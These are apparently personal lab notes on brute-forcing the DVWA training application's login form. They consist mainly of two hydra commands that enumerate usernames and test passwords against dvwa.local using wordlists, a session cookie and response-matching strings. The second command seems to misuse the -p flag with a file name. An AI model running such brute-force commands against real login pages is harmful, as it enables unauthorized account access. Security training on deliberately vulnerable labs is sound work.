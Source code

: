 # Manual

## 01 - Username enumeration

```
$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p test dvwa.local http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=<PHP_cookie_session>; security=low:F=Username and/or password incorrect."
```

```
$ hydra -L users.txt -p passwords.txt dvwa.local http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=<PHP_cookie_session>; security=low:S=Welcome to the password protected area admin"
```

---
## References

- [[Other Wordlists]]

- [Bigyan Kalakheti: DVWA-Bruteforce](https://bigyankalakheti.medium.com/dvwa-bruteforec-low-medium-high-edda8bcec10d)